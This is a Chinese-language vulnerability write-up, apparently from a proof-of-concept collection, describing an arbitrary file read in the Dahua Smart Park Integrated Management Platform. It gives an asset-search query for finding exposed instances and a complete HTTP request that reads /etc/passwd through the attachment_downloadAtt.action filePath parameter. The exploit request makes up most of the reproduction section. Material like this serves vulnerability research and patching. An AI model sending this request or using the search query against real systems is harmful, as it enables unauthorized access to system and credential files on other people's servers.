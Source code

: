 # 大华智慧园区综合管理平台attachment_downloadAtt.action 任意文件读取

# 一、漏洞简介
大华智慧园区综合管理平台是一个集智能化、信息化、网络化、安全化为一体的智慧园区管理平台，旨在为园区提供一站式解决方案，包括安防、能源管理、环境监测、人员管理、停车管理等多个方面。大华智慧园区综合管理平台attachment_downloadAtt.action 存在任意文件读取漏洞

# 二、影响版本
+ 大华智慧园区综合管理平台

# 三、资产测绘
+ hunter:`app.name="Dahua 大华 智慧园区管理平台"`  
![1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113.png](./img/jaCC7DXDDmfvY9yI/1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113-356915.png)
+ 登录页面：

![1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138.png](./img/jaCC7DXDDmfvY9yI/1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138-333076.png)

# 四、漏洞复现
```plain
GET /portal/attachment_downloadAtt.action?filePath=/etc/passwd HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=ABB59960633C3E7734D10072A90C5E31; JSESSIONID=4405A0D40C98D16E75E036C95FB89669
Upgrade-Insecure-Requests: 1
```

![1699421293209-2b66f6f8-c519-4d64-b573-e1d6f956d566.png](./img/jaCC7DXDDmfvY9yI/1699421293209-2b66f6f8-c519-4d64-b573-e1d6f956d566-646472.png)



> 更新: 2024-02-29 23:57:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yxprolu54446xcih>